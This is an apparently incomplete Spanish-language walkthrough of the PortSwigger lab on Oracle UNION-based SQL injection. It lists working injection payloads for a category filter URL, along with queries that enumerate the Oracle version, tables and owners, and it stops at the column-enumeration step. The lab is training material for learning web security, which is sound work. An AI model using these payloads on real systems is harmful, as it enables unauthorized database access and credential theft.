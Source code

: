 # `LAB`: SQL injection attack, listing the database contents on Oracle

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

## Hint

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual` 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- Muy similar a los laboratorios anteriores enfocados a `Oracle`
- En este caso es llegar hasta el login con `adminsitrador`
- Es un poco diferente a MySQL el dump de información de Oracle, así que pondré el proceso completo:

---

### Explicación para enumerar `DB Info`, `Tablas`, `Columnas` y `Data` Oracle

**`DB Info`:** Enumerar en Oracle Base de Datos, versión, etc:

````sql
# Banner:
SELECT banner FROM v$version
# Version:
SELECT version FROM v$instance
````

**`Tablas`:** En Oracle se pone originalmente para mostrar todas las tables:

````sql
# Enumerar nombres de tablas:
SELECT table_name FROM all_tables;
````

Para seleccionar solo la base de datos que estamos usando en Oracle es más fácil utilizar los usarios que utilizan la DB _(en este caso el más obvio de un user no default era "Peter")_:

````sql
# Enumerar propietarios de tablas:
SELECT table_name FROM all_tables WHERE owner = 'PETER';
````

**`Columnas`:** En Oracle se pone originalmente para mostrar las columnas




## Solución:

````py
# Vulnerabilidad y sanamiento
.web-security-academy.net/filter?category=Pets' -- -

# Mostrar info oculta (opcional)
.web-security-academy.net/filter?category=Pets' or 1 = 1 -- -

# Fuzzing Número de Columnas
.web-security-academy.net/filter?category=Pets' order by 2 -- -

## Columnas vulnerables: Como es caso de Oracle NO SIRVE el siguiente query:
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' -- -

## Columnas vulnerables: Este es el que se debe utilizar, con la default table "dual":
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' FROM dual -- -

    ### Enumer Tablas:

# TODAS: Utilizar sintaxis Oracle para enumerar Tablas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM all_tables -- -
# Filtrando por User: A diferencia de MySQL es mejor enumerar tablas por propietario:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM all_tables WHERE owner = 'PETER' -- -
        ## PRODUCTS
        ## USERS_GZGVRP

    ### Enumer Columnas:





````
